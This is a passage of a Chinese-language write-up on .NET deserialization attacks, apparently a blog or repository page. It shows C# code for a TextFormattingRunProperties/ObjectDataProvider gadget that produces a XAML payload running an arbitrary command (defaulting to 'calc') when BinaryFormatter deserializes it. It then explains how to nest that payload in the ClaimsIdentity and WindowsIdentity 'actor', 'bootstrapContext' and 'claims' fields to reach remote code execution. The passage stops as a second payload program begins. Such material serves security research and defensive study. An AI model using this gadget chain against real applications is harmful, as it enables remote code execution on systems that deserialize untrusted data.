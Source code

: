 ```
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

利用2(ysoserial的写法)：将我们的TextFormattingRunProperties的payload，赋值到m_serializedClaims的字段，类型为String，我们再利用BinaryFormatter去反序列化ClaimsIdentity类时，会调用OnDeserializedMethod方法，然后再调用DeserializeClaims方法中，就再次对我们的m_serializedClaims进行反序列化（有点二次反序列化的味道）

##### WindowsIdentity+TextFormattingRunProperties

**调用的类**：WindowsIdentity+ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：还是一样的，去寻找`new BinaryFormatter().Deserialize`

**思路**：WindowsIdentity继承自ClaimsIdentity，ISerializable，在反序列化时会调用其构造函数，同时也调用了父类的反序列化构造函数，三个字段`actor`和`bootstrapContextKey`均可以进行binaryformatter反序列化。所以在info中设置key为System.Security.ClaimsIdentity.actor或bootstrapContext或claims，值为TextFormattingRunProperties的Base64 payload，即可触发RCE

流程截图：

在`DeserializeClaims`方法中

payload:

```
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security.Principal;
using System.Web.UI;
using System.Windows.Data;
using System.Windows.Markup;

namespace LosFormatterDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {
```